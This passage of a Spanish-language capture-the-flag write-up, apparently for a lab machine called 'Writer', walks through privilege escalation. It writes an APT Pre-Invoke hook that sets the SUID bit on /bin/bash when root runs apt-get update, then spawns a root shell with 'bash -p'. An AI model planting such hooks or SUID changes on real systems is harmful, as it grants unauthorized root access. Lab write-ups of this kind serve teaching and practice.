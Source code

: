 Hay una tarea interesante que está ejecutando el usuario ```root``` (```/usr/bin/apt-get update```), así que nos dirigimos al directorio ```/etc/apt/apt.conf.d``` y creamos un archivo con el siguiente contenido:

```bash
john@writer:/etc/apt/apt.conf.d$ echo "APT::Update::Pre-Invoke {\"chmod 4755 /bin/bash\";};" > suid
```
```bash
john@writer:/etc/apt/apt.conf.d$ cat suid
APT::Update::Pre-Invoke {"chmod 4755 /bin/bash";};
```
> Esto se encargará de ejecutar el comando que le indiquemos (```chmod 4755 /bin/bash```), antes de ejecutar el ```apt-get update```, por lo que, en este caso se le asignarán permisos **SUID** a la ```/bin/bash```, lo que nos permitirá, posteriormente, spawnear una bash como ```root```

Si ahora vemos los permisos de la ```/bin/bash``` veremos que es **SUID**

```bash
john@writer:/etc/apt/apt.conf.d$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```
Así que ahora solo tenemos que ejecutar el siguiente comando:

```bash
john@writer:/etc/apt/apt.conf.d$ bash -p
bash-5.0#
```
Y somos ```root```!!

```bash
bash-5.0# whoami
root
```
